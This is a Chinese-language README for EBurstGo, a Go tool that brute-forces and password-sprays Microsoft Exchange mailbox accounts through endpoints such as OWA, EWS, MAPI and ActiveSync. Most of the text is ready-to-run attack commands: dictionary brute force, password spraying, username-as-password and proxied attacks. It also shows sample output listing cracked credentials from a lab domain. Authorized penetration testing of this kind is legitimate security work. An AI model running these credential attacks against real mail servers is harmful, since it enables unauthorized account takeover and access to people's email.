 # EBurstGo

利用 Exchange 服务器 Web 接口爆破邮箱账户

参考 [grayddq/EBurst](https://github.com/grayddq/EBurst) 项目使用 Go 语言重构

支持接口

```shell
/autodiscover
/owa/auth.owa # OWA & ECP
/ews
/mapi
/oab
/rpc
/Microsoft-Server-ActiveSync
/powershell
```

注意 Releases 中的代码不一定是最新的

建议将本项目 clone 下来然后执行 `goreleaser build --snapshot` 手动编译

## Usage

usage

```shell
Usage of ./EBurstGo:
  -check
    	检测目标 Exchange 可用接口
  -debug
    	显示 Debug 信息
  -delay int
    	请求延时
  -domain string
    	AD 域名
  -mode string
    	指定 Exchange Web 接口
  -nocolor
    	关闭输出颜色
  -nosave
    	不将结果输出至文件
  -o string
    	指定结果输出文件 (default "result.txt")
  -pass string
    	指定密码
  -passf string
    	密码字典
  -proxy string
    	指定 socks/http(s) 代理
  -t int
    	协程数量 (default 2)
  -url string
    	Exchange 服务器地址
  -user string
    	指定用户名
  -user-as-pass
    	指定密码与用户名相同
  -userf string
    	用户名字典
  -userpassf string
    	指定用户名密码字典 (user:pass)
  -v	显示详细信息
```

check

```shell
$ ./EBurstGo -url https://192.168.30.11 -check
[*] 检测目标 Exchange 可用接口
[+] 存在 owa 接口 (/owa/auth.owa), 可以爆破
[+] 存在 powershell 接口 (/powershell), 可以爆破
[+] 存在 ecp 接口 (/owa/auth.owa), 可以爆破
[+] 存在 autodiscover 接口 (/autodiscover), 可以爆破
[+] 存在 mapi 接口 (/mapi), 可以爆破
[+] 存在 activesync 接口 (/Microsoft-Server-ActiveSync), 可以爆破
[+] 存在 oab 接口 (/oab), 可以爆破
[+] 存在 ews 接口 (/ews), 可以爆破
[+] 存在 rpc 接口 (/rpc), 可以爆破
```

brute

默认会将爆破成功的账户追加写入 result.txt

```shell
# 常规爆破
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews

# 指定用户名
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -user Alice -passf pass.txt -mode ews

# 密码喷洒
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -pass 'Changeme123' -mode ews

# 支持 user:pass 格式的字典
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userpassf userpass.txt -mode ews

# 密码与用户名相同
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -user-as-pass -mode ews

# 设置 socks/http(s) 代理
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews -socks socks5://127.0.0.1:1080
```

examples

```shell
$ ./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews
[*] 用户名:7 密码:9 共计:63
[*] 使用 ews 接口爆破: https://192.168.30.11
[+] 成功: Administrator:abcd1234!@#$
[+] 成功: Alice:Alice123!
[+] 成功: Bob:Bob123!
[+] 成功: Marry:Marry123!
[*] 耗时: 3.031753209s
```

## Todo

- 开启代理使用 NTLM 认证爆破一段时间后出现 `connection refused`, 待解决
- `/powershell` 接口 (Kerberos 认证) 待支持